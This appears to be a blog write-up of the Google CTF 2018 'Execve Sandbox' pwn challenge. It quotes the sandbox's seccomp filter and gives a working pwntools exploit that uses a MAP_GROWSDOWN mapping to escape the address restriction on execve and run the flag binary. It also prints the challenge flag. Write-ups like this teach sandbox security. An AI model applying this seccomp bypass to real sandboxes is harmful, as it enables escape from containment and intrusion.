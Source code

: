 ```yaml
---
title: Execve Sandbox - Google CTF 2018
layout: post
date: '2018-06-26 19:32:23'
---
```


> What a kewl sandbox! Seccomp makes it impossible to execute ./flag
> 
> nc execve-sandbox.ctfcompetition.com 1337
> 
> [Attachment](/assets/google18/execve-sandbox.c)


*283 points, 23 Solves, pwn*


We are given the source to a sandbox that reads a Elf64 binary, initializes the sandbox, then runs the sandboxed program. It does this by first checking that none of the Elf sections are within the range `0x10000-0x11000`, then uses `seccomp` to only allow a few safe syscalls.

```c
static int install_syscall_filter(unsigned long mmap_min_addr)
{
  int allowed_syscall[] = {
    SCMP_SYS(rt_sigreturn), SCMP_SYS(rt_sigaction), SCMP_SYS(rt_sigprocmask), SCMP_SYS(sigreturn), 
    SCMP_SYS(exit_group), SCMP_SYS(exit), SCMP_SYS(brk), SCMP_SYS(access), SCMP_SYS(fstat), SCMP_SYS(write),
    SCMP_SYS(close), SCMP_SYS(mprotect), SCMP_SYS(arch_prctl), SCMP_SYS(munmap), SCMP_SYS(fstat),
    SCMP_SYS(readlink), SCMP_SYS(uname),
  };
  
  scmp_filter_ctx ctx;
  unsigned int i;
  int ret;

  ctx = seccomp_init(SCMP_ACT_KILL);
  if (ctx == NULL) {
    warn("seccomp_init");
    return -1;
  }

  for (i = 0; i < sizeof(allowed_syscall) / sizeof(int); i++) {
    if (seccomp_rule_add(ctx, SCMP_ACT_ALLOW, allowed_syscall[i], 0) != 0) {
      warn("seccomp_rule_add");
      ret = -1;
      goto out;
    }
  }

  /* prevent mmap to map mmap_min_addr */
  if (seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(mmap), 1,
                       SCMP_A0(SCMP_CMP_GE, mmap_min_addr + PAGE_SIZE)) != 0) {
    warn("seccomp_rule_add");
    ret = -1;
    goto out;
  }

  /* first execve argument (filename) must be mapped at mmap_min_addr */
  if (seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(execve), 1,
                       SCMP_A0(SCMP_CMP_EQ, mmap_min_addr)) != 0) {
    warn("seccomp_rule_add");
    ret = -1;
    goto out;
  }

  puts("[*] seccomp-bpf filters installed");

  ret = seccomp_load(ctx);
  if (ret != 0)
    warn("seccomp_load");

out:
  seccomp_release(ctx);
  return ret;
}
```
It also allows execve but only if the first argument is `0x10000` and allows `mmap` but only if the address is greater than or equal to `0x11000`.

The end goal is to run the `flag` program in the current directory, but as `0x10000` isn't mapped and `seccomp` wont allow us to mmap it, it seems impossible.

After a bit of reading I came across `MAP_GROWSDOWN` (see the [mmap man page](http://man7.org/linux/man-pages/man2/mmap.2.html)) which I'd only used for creating fake stacks before, but I realised that it could be used to defeat the sandbox! We just map a page at `0x11000` with the `MAP_GROWSDOWN` flag set, then set the stack to 0x11000 and push something. This will cause the kernel to automatically map another page for the stack instead of causing a page fault, so it will now cover `0x10000`. Now we can write `./flag` to 0x10000 and run execve.

Using all the amazing helper functions of [pwntools](https://github.com/Gallopsled/pwntools) this turn out to be pretty simple:

```python
#!/usr/bin/env python2
from pwn import *

def exploit():
  code = ""
  code += shellcraft.syscall('SYS_mmap', 0x11000, 0x1000, 
    constants.PROT_READ | constants.PROT_WRITE | constants.PROT_EXEC,
    constants.MAP_GROWSDOWN | constants.MAP_ANONYMOUS | constants.MAP_PRIVATE,
     0, 0
  )
  code += "mov rsp, 0x11000\n"
  code += shellcraft.pushstr("./flag")
  code += shellcraft.memcpy(0x10000, 'rsp', 6)
  code += shellcraft.syscall('SYS_execve', 0x10000, 0, 0)
  code += shellcraft.exit(0)

  elf = make_elf(asm(code), extract=True, strip=True )

  payload = elf.ljust(0x1000, "\x00")
  p.sendafter("binary...", payload)

  print p.recvall()

if __name__ == "__main__":
  name = "./execve-sandbox"
  binary = ELF(name)

  context.terminal=["tmux", "sp", "-h"]
  context.arch = "amd64"
  context.os = "linux"

  if len(sys.argv) > 1:
    p = remote("execve-sandbox.ctfcompetition.com", 1337)
  else:
    p = process(name, cwd="./sandbox", env={})

    gdb.attach(p, """
      set follow-fork-mode child
    c
    """)

  exploit()
```

Which prints out the flag `CTF{Time_to_read_that_underrated_Large_Memory_Management_Vulnerabilities_paper}`
